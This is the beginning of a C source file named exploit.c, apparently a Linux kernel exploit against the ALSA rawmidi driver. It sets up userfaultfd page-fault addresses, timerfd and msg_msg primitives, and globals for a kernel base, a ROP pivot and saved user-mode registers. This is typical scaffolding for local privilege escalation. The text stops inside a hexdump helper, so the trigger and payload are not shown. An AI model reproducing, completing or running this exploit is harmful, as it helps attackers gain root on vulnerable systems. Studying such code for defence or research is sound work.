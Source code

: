 ```c
// gcc -o exploit exploit.c -masm=intel -static -s -lpthread
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <errno.h>
#include <string.h>
#include <unistd.h>
#include <stdint.h>
#include <sound/asound.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <linux/userfaultfd.h>
#include <sys/timerfd.h>
#include <sys/ipc.h>
#include <sys/msg.h>
#include <pthread.h>
#include <poll.h>

#define errExit(msg)    do { perror(msg); exit(EXIT_FAILURE); \
                        } while (0)
                        
#define ADDRESS_PAGE_FAULT1 0x1337000
#define ADDRESS_PAGE_FAULT2 0x3331000
#define ADDRESS_PAGE_FAULT3 0x5551000
#define PAGE_SIZE 0x1000
#define DRIVER_RAWMIDI "/dev/snd/midiC0D0"

#define SNDRV_RAWMIDI_STREAM_OUTPUT 0

uint32_t uffd;
uint32_t fd1, fd2, fd3;
uint64_t next;
uint64_t fake_table;

pthread_t thread[6];

bool release_page_fault = false;

static void *page;

unsigned long pivot;
unsigned long kernel_base;
unsigned long timerfd_tmrproc;

unsigned long usr_cs, usr_ss, usr_rflags, usr_sp;

struct args_trigger
{
    char *addr;
    int size;
    uint32_t fd;
};

void hexdump(uint64_t *buf, uint64_t size)
{
    for (int i = 0; i < size / 8; i += 2)
    {
        printf("0x%x ", i * 8);
```